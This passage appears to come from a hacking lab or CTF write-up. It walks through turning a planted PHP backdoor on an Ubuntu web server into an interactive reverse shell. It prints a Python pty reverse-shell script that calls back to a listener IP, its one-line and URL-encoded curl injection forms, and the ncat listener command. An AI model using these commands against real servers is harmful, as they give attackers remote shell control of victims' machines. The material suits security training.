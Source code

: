 Our backdoor works

## The server

### Reverse shell

Now we can try to inject a reverse shell for a prettier access to the server. The classic way use netcat with a command like `nc <address> <port> -e /bin/sh`. But in this server (ubuntu), the version of netcat doesn't support the `-e` option, so it will not work

There is many options to get a reverse shell (create a socket, open port, link a shell to the socket...). There is a lot of exemples here  : asafety.fr/reverse-shell-one-liner-cheat-sheet

We will do a python version because there is already python on the server. We use `pty` to spawn a shell because we need a tty shell (for `su` etc), better then just simple `bash` process like the exemples

```py
import socket,subprocess,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.47",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=pty.spawn("/bin/bash")
```
In one line and shell command:

```sh
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.47",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/bash");'
```

We need to use an url encoder (urlencoder.org) to encode this command for using in a get request

The final command to inject this reverse shell on our backdoor using curl is :

```sh
curl --insecure 'https://192.168.1.22/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.47%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

First, we start netcat (ncat version on debian) as a client on our local machine to wait the connection

```sh
$> ncat -nvklp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

And now launch the reverse shell on the server with our previous final command and wait the connection on the client netcat
